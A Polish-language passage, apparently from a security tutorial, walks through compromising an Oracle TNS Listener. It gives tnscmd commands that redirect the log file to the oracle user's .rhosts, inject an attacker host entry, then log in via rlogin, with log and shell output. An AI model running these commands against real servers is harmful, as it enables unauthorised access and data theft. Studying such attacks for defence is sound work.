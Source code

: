 Proces logowania w przypadku usługi Oracle Listener polega na zapisie wszelkich informacji o błędach wraz z cytatem nieprawidłowej komendy. Zdziwić może fakt, że nie zapisywane są informacje o adresie IP i nazwie hosta, z którego nadeszło połączenie, intruz może czuć się pod tym względem bezpieczny ponieważ same logi Listenera nie ujawnią jego obecności.

Wróćmy jednak do naszego ataku na plik `.rhosts` i wykorzystaniu usługi `rlogin`. Intruz na samym początku zmienia plik logowania na wspomniany już `/home/oracle/.rhosts`.

```
tnscmd -h adres_serwera -p 1521 --rawcmd "
(DESCRIPTION= (CONNECT_DATA=(CID=(PROGRAM=)(HOST=)(USER=))
(COMMAND=log_file)(ARGUMENTS=4)(SERVICE=LISTENER)
(VERSION=1)(VALUE=/home/oracle/.rhosts)))"
```

Po wykonaniu tego zlecenia Listener będzie posłusznie logować wszystkie zlecenia do ustawionego przez nas pliku. Wszystkim nie wtajemniczonym należy się tutaj kilka słów wyjaśnienia. W wielu systemach z rodziny UNIX w katalogu domowym użytkownika zapisane są w pliku `.rhosts` adresy hostów, które mogą łączyć sie z tym kontem bez dalszego uwierzytelniania.

Wprowadzimy więc do tego pliku adres ip hosta z którego atakujemy serwer bazodanowy:

```
tnscmd -h adres_serwera -p 1521 --rawcmd "
(CONNECT_DATA=((
10.20.30.4 andrey
"
```

Zgodnie z oczekiwaniami Oracle Listener zapisał do pliku informacje o błędnym zleceniu:

```
11-LIS-2007 22:22:04 * log_file * 0
11-LIS-2007 22:22:34 * service_register * oral * 0
11-LIS-2007 22:22:54 * 1153
TNS-01153: Failed to process string: (CONNECT_DATA=((
10.20.30.4 andrey
 NL-00303: syntax error in NV string
```

Jako, że informacja o adresie zdalnego hosta została umieszczona w nowej linii oznacza to, że zostanie poprawnie zinterpretowana podczas logowania za pomocą `\verb+rlogin+`. Wystarczy już teraz zalogowac się i cieszyć się dostępem do systemu z poziomu użytkownika oracle.

```
andrey@freebsd:~$ rlogin -l oracle adres_serwera
Linux oracleserver Sun Nov 11 22:43:12 CEST 2007 i686 unknown

oracle@oraclesrv:~$ id
uid=1001(oracle) gid=103(oinstall)
groups=103(oinstall),104(dba),105(oper)
```

Jak widać powyżej, bez problemu dostaliśmy się na konto użytkownika oracle. Mając jego uprawnienia możemy dalej rozmontowywać bazę lub rozpocząc kradzież informacji w niej zawartych.

Podobnie skonstruowane ataki moga służyć do modyfikacji kluczy ssh i nawiązywania połączeń poprzez ssh. W systemach z rodziny UNIX zdobycie uprawnień użytkownika oracle nie musi być krytycznym zagrożeniem dla systemu operacyjnego, jednak w przypadku systemów Microsoft Windows, intruz posiadający uprawnienia **LOCAL_SYSTEM** może poważnie zagrozić serwerowi.
